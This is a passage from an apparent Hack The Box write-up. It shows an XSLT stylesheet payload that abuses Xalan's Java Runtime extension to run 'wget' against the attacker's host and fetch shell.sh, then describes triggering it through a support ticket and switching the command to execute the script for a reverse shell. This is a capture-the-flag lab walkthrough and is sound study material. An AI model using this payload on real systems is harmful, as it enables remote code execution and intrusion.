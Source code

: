 ```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget 10.10.14.10/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Then I created a new ticket that links to the stylesheet **esi.xsl** I just created.

![](/assets/images/htb-writeup-quick/image-20200425201534969.png)

![](/assets/images/htb-writeup-quick/image-20200425201623053.png)

After searching for the ticket number 7644, I saw the **shell.sh** file was downloaded from my machine.

![](/assets/images/htb-writeup-quick/image-20200425201650309.png)

![](/assets/images/htb-writeup-quick/image-20200425201707232.png)

Then, I modified the **esi.xsl** file and changed the command to execute the **shell.sh** file and get a reverse shell.

